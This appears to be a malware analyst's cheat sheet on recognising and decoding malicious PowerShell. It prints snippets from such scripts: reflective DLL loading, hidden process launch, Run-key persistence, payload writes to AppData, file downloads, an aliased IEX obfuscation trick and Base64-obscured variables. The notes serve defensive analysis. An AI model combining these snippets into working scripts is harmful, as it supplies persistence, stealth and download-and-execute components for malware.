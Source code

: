 # Powershell Flags

## Encoded
Short Flag: -e
Usage: powershell -e <Base64 string>
Analysis:
Using Cyberchef
1. Copy paste the Base64 string
2. Use the recipe: Base64 Decode + Decode Text (UTF-16LE(1200))
3. Script Revelead

Using PowerShell
1. Substitute and use the script below
```
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('<Insert The Binary Here>'))
```

# Interesting Functions to look out for

## Loading DLL into Memory
```
[Reflection.Assembly]::Load($hgh2).GetType('R2').GetMethod('Run').Invoke($null,$YOO)
```

## File Execution
```
saps -FilePath $FileName -ArgumentList $Args -WindowStyle Hidden

# Examples
saps -FilePath $ExecutionContext.InvokeCommand.ExpandString([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('JAB7AF8AXwAvAFwAXwBfAF8ALwA9AD0AXAAvAFwAXwBfAC8APQB9AA=='))) -ArgumentList $ExecutionContext.InvokeCommand.ExpandString([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('JAB7AF8AXwAvAFwALwA9AFwALwBcAC8APQA9AFwALwA9AFwAXwB9AA=='))) -WindowStyle Hidden

```

## File Write to File System
```
$base64string = "<Insert Super Long File base64 string here>"
$FilePath = "$Env:AppData\qjMzIzFT.zip"
$FileBytes = [System.Convert]::FromBase64String($base64string)
[System.IO.File]::WriteAllBytes($FilePath, $FileBytes)

```

## Run Registry Edit
```
$FilePath = "$Kacnxifj\Qetto-2-Connect.exe"
$RegistryKey = "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
$RegistryName = "NetUtilityApp"
if (Get-ItemProperty -Path $RegistryKey -Name $RegistryName -ErrorAction SilentlyContinue) {
  Set-ItemProperty -Path $RegistryKey -Name $RegistryName -Value $FilePath
} else {
  New-ItemProperty -Path $RegistryKey -Name $RegistryName -Value $FilePath -PropertyType "String"
}
```

## File Download
```
# Method 1
${web_httpclient} = New-Object System.Net.WebClient
${web_httpclient}.DownloadFile(${str_url}, ${FileName})

# Method 2
iwr https://example.com/file.zip -OutFile "file.zip"
Invoke-WebRequest https://example.com/file.zip -OutFile "file.zip"

```

## Usage of COM object
```
# Example of using COM Object to copy file
$ShellApp = New-Object -ComObject Shell.Application
$sourceFolder = $ShellApp.NameSpace($sourcePath)
$destinationFolder = $ShellApp.NameSpace($destinationPath)
$destinationFolder.CopyHere($sourceFolder.Items(), 4 + 16)
```

## Obfuscation
### Replace
```
# Creates an alias GG that will execute 'IEX'
$t0='JOOOOIEX'.replace('JOOOO','');sal GG $t0;
```

### Obscure Variable Names
```
${__/====\/=\__/===} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcABzADoALwAvAG4AbwBkAGUAagBzAC4AbwByAGcALwBkAGkAcwB0AC8AdgAyADIALgAxADEALgAwAC8AbgBvAGQAZQAtAHYAMgAyAC4AMQAxAC4AMAAtAHcAaQBuAC0AeAA2ADQALgB6AGkAcAA=')))
${/===\/==\/=\/\_/\} = [System.IO.Path]::Combine($env:APPDATA, "")
${___/=\__/==\_/\/=} = [System.IO.Path]::Combine($env:TEMP, $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('ZABvAHcAbgBsAG8AYQBkAGUAZAAuAHoAaQBwAA=='))))
```
Change the variable name to a more meaningful variable name.
1. Copy the code in a text editor
2. Use the find and replace with feature, while enabling the "Match Whole Word" option or any of its equivalent.
3. Search the variable name and replace it with a meaningful variable name.


### Base64
```
# Basic Use
$a = [Convert]::FromBase64String(<Base64 String or Variable>)

# Assigning Method to variable
$SSD=[system.Convert].GetMethod("FromBase64String")
$hgh=$SSD.Invoke($null,$obj)
```

